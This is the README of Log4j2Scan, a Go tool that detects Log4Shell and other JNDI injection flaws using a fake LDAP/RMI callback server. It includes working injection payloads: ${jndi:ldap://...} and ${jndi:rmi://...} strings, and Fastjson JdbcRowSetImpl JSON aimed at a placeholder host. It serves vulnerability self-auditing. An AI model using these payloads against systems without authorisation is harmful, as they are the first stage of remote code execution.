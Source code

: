 # Log4j2Scan

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/golang-1.17-blue)

## 介绍
该项目由 天下大木头 与 4ra1n师傅 共同开发，感谢4ra1n师傅的许多帮助
 
这是什么？

该项目一款无须借助`dnslog`且完全无害的log4j2反连检测工具，解析`RMI`和`LDAP`协议实现，可用于甲方内网自查

特点：
- 由`Golang`编写，直接运行可执行文件进行检测
- 动态渲染数据到`web`页面，方便观察结果

![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/001.png)

## 使用

使用`${jndi:ldap://ip:端口/}`这样的`Payload`

如果目标存在漏洞，该项目就会收到`ldap/rmi`请求，从而快速定位哪些目标存在漏洞

Demo
![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/002.png)

根据自己操作系统下载对应的可执行文件：[下载地址](https://github.com/KpLi0rn/Log4j2Scan/releases/tag/v0.0.1)

命令：`./Log4j2Scan -p port(默认8001) -wp webport(默认8888)`

```text
    __                __ __  _ _____
   / /   ____  ____ _/ // / (_) ___/_________ _____
  / /   / __ \/ __ `/ // /_/ /\__ \/ ___/ __ `/ __ \
 / /___/ /_/ / /_/ /__  __/ /___/ / /__/ /_/ / / / /
/_____/\____/\__, /  /_/_/ //____/\___/\__,_/_/ /_/
 /____/    /___/
    coded by 天下大木头 & 4ra1n
[+] [16:36:26] use port: 8000
[+] [16:36:26] use http port: 8888
[+] [16:36:26] start fake reverse server
[+] [16:36:26] start result http server
|------------------------------------|
|--Payload: ldap/rmi://your-ip:port--|
|------------------------------------|
```

只需要将`Payload`设置为：`ldap://your-ip:port`或`rmi://your-ip:port/xxx`

然后访问：`localhost:8888`即可动态查看最新结果

注意：`rmi`方式payload要为 `${jndi:rmi://127.0.0.1:8001/xxxx}` 类似这种形式

## 配合release中的burp插件使用

f0ng 师傅的插件也可以直接配合进行使用：https://github.com/f0ng/log4j2burpscanner

简单修改了 https://github.com/whwlsfb/Log4j2Scan 项目的插件，感谢师傅允许二开

使用教程如下：

正常导入burp插件，使用 ceye 模块 注：只有ceye模块被修改了

Log4j2hostIp处填写 VPS的ip和端口，下面的任意填写
![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/003.png)

启动工具

![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/004.png)

启动漏洞环境，利用 burp 进行抓包，反连平台成功收到请求

![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/005.png)




## 拓展

不止用于`Log4j2`框架，也可用于检测存在`JNDI`注入的其他框架

例如`Fastjson`的检测：

```text
{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "rmi://your-ip:port",
	"autoCommit": true
}

{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "ldap://your-ip:port",
	"autoCommit": true
}
```
